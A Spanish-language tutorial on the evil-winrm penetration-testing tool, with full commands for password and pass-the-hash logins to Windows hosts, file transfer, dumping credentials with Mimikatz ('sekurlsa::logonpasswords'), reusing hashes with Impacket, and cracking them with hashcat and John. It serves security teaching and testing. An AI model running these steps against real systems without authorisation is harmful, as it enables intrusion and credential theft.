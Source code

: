 # 🛡️ ¿Qué es `evil-winrm` y cómo usarlo para pruebas de penetración?  

`evil-winrm` es una herramienta poderosa, escrita en Ruby, que permite acceder a máquinas Windows remotas mediante **WinRM (Web Remote Management)**. Es una herramienta clave en la caja de herramientas de cualquier profesional de ciberseguridad o auditor de sistemas.

---

## 🔧 ¿Para qué sirve?

- **Acceso remoto seguro** a servidores Windows habilitados para WinRM.

- **Autenticación flexible**: soporta credenciales en texto plano o hashes NTLM.

- Permite:
  - Ejecutar comandos como si estuvieras en PowerShell.
  - Navegar por el sistema de archivos del objetivo.
  - Subir y bajar archivos.
  - Explorar vulnerabilidades y explotar scripts o aplicaciones web mal configuradas.

---

## 💻 Cómo usar `evil-winrm`

### ✅ Con credenciales

```bash
evil-winrm -i 192.168.1.10 -u Administrator -p password123
```

- `-i`: IP del servidor objetivo.
- `-u`: Nombre de usuario.
- `-p`: Contraseña.

### 🔐 Con hash NTLM

```bash
evil-winrm -i 192.168.1.10 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
```

- `-H`: Hash NTLM del usuario (`<LM_HASH>:<NTLM_HASH>`).

---

### 🛠️ Opciones adicionales útiles

| Opción | Descripción |
|--------|-------------|
| `-s`   | Carpeta con scripts Ruby para ejecutar. |
| `-l`   | Carpeta local para guardar archivos descargados. |
| `-P`   | Puerto personalizado (por defecto 5985 para HTTP). |

---

## 🧪 Ejemplo práctico

```bash
evil-winrm -i 192.168.1.10 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
```

Una vez conectado:

```powershell
PS C:\Users\Administrator\Desktop> dir
PS C:\Users\Administrator\Desktop> whoami
PS C:\Users\Administrator\Desktop> Get-ChildItem
```

---

## 📥 Transferencia de archivos

### Descargar un archivo del servidor

```powershell
download C:\Users\Administrator\Desktop\secreto.txt
```

### Subir un archivo desde tu máquina

```powershell
upload /home/kali/archivo.exe C:\Users\Administrator\Desktop\
```

---

## 🕵️‍♂️ Captura de hashes con `evil-winrm`

Si tienes acceso al sistema, puedes usar **Mimikatz** para extraer hashes de memoria.

### Pasos básicos

1. Subir Mimikatz:

```bash
upload mimikatz_trunk/mimikatz.exe C:\Users\Administrator\Desktop
```

2. Ejecutar Mimikatz:

```powershell
cd C:\Users\Administrator\Desktop
.\mimikatz.exe
```

3. Comandos dentro de Mimikatz:

```powershell
privilege::debug
sekurlsa::logonpasswords
```

Esto te mostrará contraseñas en claro, hashes NTLM y más.

---

## 🔁 Reutilizar hashes obtenidos

Los hashes capturados pueden ser usados con otras herramientas como:

- `evil-winrm` (como ya vimos).
- Herramientas de `Impacket` (`ntlmrelayx.py`, `wmiexec.py`, etc.).

---

## 🔐 ¿Cómo descifrar hashes NTLM?

### Tipos de hashes

| Tipo        | Descripción |
|-------------|-------------|
| **LM Hash** | Obsoleto, fácil de crackear. |
| **NTLM Hash** | Más fuerte, pero también crackeable. |

---

### Herramientas recomendadas

#### 1. `hashcat`

```bash
hashcat -m 1000 hash.txt /ruta/a/diccionario.txt
```

- `-m 1000`: Modo NTLM.
- `hash.txt`: Archivo con los hashes.
- `/ruta/a/diccionario.txt`: Diccionario de contraseñas.

#### 2. `john the ripper`

```bash
john --wordlist=/ruta/a/diccionario.txt hash.txt
```

---

## 📌 Conclusión

`evil-winrm` es una herramienta esencial para profesionales de ciberseguridad, especialmente en entornos Windows. Combina facilidad de uso con potencia, permitiendo tanto acceso remoto como análisis forense y extracción de credenciales.

¡Comparte este contenido y aprendamos juntos! 👨‍💻👩‍💻 #Ciberseguridad #PenTest #EvilWinRM #HashesNTLM #Redes #Cybersecurity #Windows #EthicalHacking

![Evil-WinRM](https://www.kali.org/tools/evil-winrm/images/evil-winrm-logo.svg)
